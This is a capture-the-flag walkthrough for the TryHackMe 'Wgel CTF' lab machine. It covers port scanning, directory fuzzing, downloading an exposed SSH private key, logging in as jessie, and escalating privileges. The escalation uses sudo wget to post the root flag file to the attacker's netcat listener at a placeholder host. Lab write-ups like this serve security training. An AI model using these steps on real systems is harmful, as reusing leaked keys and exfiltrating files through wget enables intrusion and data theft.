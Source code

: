 # Wgel CTF

Macinne consist in access to the server and privsec via wget.

## Nmap scan

```bash
 $ nmap -sC -sV -T4 10.10.185.51
Nmap scan report for 10.10.185.51
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This machinne have the port 80 and 22.

## Enumeration

Open browser and access to the ip, is a Apache Default site.

![Apache Default Site](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20site.png)

If we go deep more and view the source code we look a name that is a possible Username.

![Source Code](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/Apache%20code.png)

Then **Jessie** is a possible username.

## Fuzzing to the website

``` bash

$ gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/
```
The result is that and the sitemap directory catches my attention.
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/sitemap (Status: 301)
```
![Sitemap]()

Finding into the source code I didn't find anything.
<br>
We keep listing into the sitemap directory.

```bash
$  gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.185.51/sitemap
```
In this search i found **/.ssh** Directory.

![.ssh directory](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/ssh.png)

We Download the file and give the respective permissions

```bash
$ wget http://10.10.185.51/sitemap/.ssh/id_rsa ;chmod 600 id_rsa
```
## access to the ssh

As we already found the possible ssh information, we proceed to access to the ssh.

Username: Jessie
<br>
Password: id_rsa file

```bash
$ ssh -i id_rsa jessie@10.10.185.51   
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Successfully, we access to the machinne.

### user.txt

```bash
jessie@CorpOne:~/Documents$ cat user_flag.txt 

057c67131c3d5e42d***************
```
## Privsec

We Check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
We go to the [GTFObins](https://gtfobins.github.io/gtfobins/wget/#file-upload) File Upload

![Wget GTFO BINS](https://raw.githubusercontent.com/n0obit4/CTF/master/TryHackMe/Wgel%20CTF/Pictures/GTFO_wget.png)

We put our machine to listen with netcat and prepare to receive the packet.

### Our Machinne

```bash
$ nc -lvnp 5689
```
### Victim Machinne

```bash
$ sudo /usr/bin/wget --post-file /root/root_flag.txt MYIP:5689/
```

### Get root flag

```bash
nc -lvnp 5689                                                   13:03:32
listening on [any] 5689 ...
connect to [MYIP] from (UNKNOWN) [10.10.185.51] 58358
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: MYIP:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1da***************

```
